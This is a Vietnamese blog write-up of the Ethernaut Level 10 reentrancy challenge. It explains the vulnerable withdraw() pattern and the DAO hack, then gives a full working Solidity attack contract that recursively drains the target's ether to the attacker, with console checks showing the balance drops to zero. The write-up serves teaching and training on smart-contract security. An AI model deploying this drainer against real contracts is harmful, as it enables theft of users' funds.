 ```yaml
---
title: "[Ethernaut CTF] Level 10: Reentrancy"
date: 2023-10-03 19:00:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel10.svg
---
```

# Level 10: Reentrancy
##  ★★★☆☆
Lần này chúng ta sẽ tìm hiểu về một trong những lỗi bảo mật iconic và nghiêm trọng nhất trong smart contract đó là reentrancy attack
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
## Reentrancy attack
- Trước khi đi vào phân tích challenge, ta cần hiểu thế nào là cuộc tấn công Reentrancy.
 - Reentracy attack là cuộc tấn công mà ở đó hacker sẽ cố gắng gọi đệ quy từ hàm rút tiền của contract, nếu contract không cẩn thận update số dư thì hacker sẽ withdraw toàn bộ tiền trong contract. 
 - Nó được thực hiện bằng cách là khi mà hacker thực hiện rút tiền từ contract, trong một contract khác ( theo ảnh dưới là Exploit contract) của hacker sẽ có fallback function mà trong fallback function đó lại tiếp tục call tới hàm ``withraw()``. Như vậy fallback function khi receive money sẽ tự động trigger và call withdraw, cứ thế lặp lại.
 
 -> thế là chúng ta vô một vòng đệ quy cho đến khi balance của contract được withdraw hết.
 ![](https://images.viblo.asia/6019738e-4648-490d-9033-8da8ae3ba291.png)
 
- Một trong những cuộc tấn công Reentrancy nổi tiếng là DAO hack, hacker đã đánh cắp 3,6 triệu ether ( hơn $50M USD ), điều này dẫn đến giá ETH bị crashed nghiêm trọng, buộc Ethereum phải tung một update quan trọng để fix. Và sự hình thành của đồng Ethereum classic bắt đầu từ đây.
- Bạn có thể đọc thêm về DAO hack tại [đây](https://www.gemini.com/cryptopedia/the-dao-hack-makerdao)   và các loại tấn công Reentrancy tại [đây](https://viblo.asia/p/nhung-lo-hong-trieu-do-trong-ethereum-smart-contract-phan-i-ORNZqjerl0n)  
## Phân tích
- Đã gọi là low-level function thì đương nhiên nó sẽ luôn nguy hiểm, trường hợp ở đây của chúng ta là ``call``
```solidity
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
 
```
- Để chuyển tiền, ngoài ``selfdestruct()`` như đã biết, chúng ta có 3 cách là ``tranfer``, ``send`` và ``call`` . Điều mà solidity luôn khuyến nghị dùng là ``tranfer`` vì nó luôn bị revert khi giao dịch lỗi , còn send và call thì không, chúng chỉ trả về ``true/false`` . 
- Một điều để biết nữa đó là ``tranfer`` và ``send`` sẽ luôn có gas limit là 2300, nghĩa là ta chỉ thuần tùy là chuyển tiền thôi mà không thể thực hiện thêm logic nào khác . Còn ``call`` thì không giới hạn gas -> Điểm để khai thác trong reentrancy attack

> Note: Solidity sẽ tính gas dựa trên độ phức tạp của code bạn
## Solution
**Target**: Rút hết balance của smart contract.
- Check balance thì ta thấy có 0.001 ether
```javascript
await getBalance(contract.address)
0.001

```

- Compile và deploy contract này trên remix,

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.6.0 <0.9.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr)  {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate{value:msg.value}(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "my money!!");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call{value:totalBalance}("");
        require(sent, "Failed to send Ether");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```
- Mình sẽ giải thích xíu về contract này sẽ tấn công như thế nào.
- Đầu tiên khi gọi donateAndWithdraw(), thì targetContract sẽ set value của ether ta gửi ``    balances[_to] = balances[_to].add(msg.value);``, sau đó hàm ``withdraw()`` sẽ được gọi và nó sẽ trigger fallback function là ``receive()`` và send số ether mà ta vừa gửi trở lại Attack contract . Vì hàm ``withdraw()`` vẫn chưa execute xong nên điều kiện ``balances[msg.sender] >= amount`` luôn đúng, ``withdraw()`` vẫn tiếp tục được gọi trong fallback function ở Attack Contract -> chúng ta vô đệ quy rút tiền.
- Cuối cùng, chúng ta dùng hàm withdrawAll() để rút hết balance có trong ``ReentranceAttack`` về ``player``.
- Check lại balance, nếu balance bằng 0 thì ta đã hoàn thành challenge này =))
```javascript
await getBalance(contract.address)
0
```
**Submit** -> Done
## Reference
- https://viblo.asia/p/nhung-lo-hong-trieu-do-trong-ethereum-smart-contract-phan-i-ORNZqjerl0n
- https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942
- https://www.gemini.com/cryptopedia/the-dao-hack-makerdao



